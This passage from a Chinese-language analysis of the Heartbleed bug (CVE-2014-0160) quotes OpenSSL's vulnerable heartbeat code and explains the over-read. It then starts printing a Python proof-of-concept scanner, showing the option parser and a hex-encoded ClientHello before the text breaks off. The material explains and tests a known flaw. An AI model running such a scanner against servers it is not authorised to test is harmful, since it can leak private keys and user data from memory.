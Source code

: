 	/* Enter response type, length and copy payload */
	*bp++ = TLS1_HB_RESPONSE;
	s2n(payload, bp);
	
	memcpy(bp, pl, payload);
&emsp;&emsp;宏s2n与宏n2s干的事情正好相反：s2n读入一个16 bit长的值，然后将它存成双字节值，所以s2n会将与请求的心跳包载荷长度相同的长度值存入变量payload。然后程序从pl处开始复制payload个字节到新分配的bp数组中——pl指向了用户提供的心跳包数据。最后，程序将所有数据发回给用户。

### 3.2&emsp;漏洞利用点 ###

用户构造的恶意payload，如果用户并没有在心跳包中提供足够多的数据，会导致什么问题？比如pl指向的数据实际上只有一个字节，那么memcpy会把这条SSLv3记录之后的数据——无论那些数据是什么——都复制出来。

## 4.&emsp;简析Heartbleed检测POC ##

	#!/usr/bin/python
	
	
	import sys
	import struct
	import socket
	import time
	import select
	import re
	from optparse import OptionParser
	
	options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
	options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')
	options.add_option('-s', '--starttls', type='string', default='', help='STARTTLS protocol: smtp, pop3, imap, ftp, or xmpp (default=NULL)')
	options.add_option('-t', '--tls', type='int', default=2, help='0=SSLv3, 1=TLSv1, 2=TLS=1.1, 3=TLSv1.1 (default: 2)')
	
	def h2bin(x):
	    return x.replace(' ', '').replace('\n', '').decode('hex')
	
	hello = h2bin('''
	16 03 02 00  dc 01 00 00 d8 03 02 53
	43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
	bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
	00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
	00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
	c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
	c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
	c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
	c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
	00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
	03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
	00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
	00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
	00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
	00 0f 00 01 01
	''')
	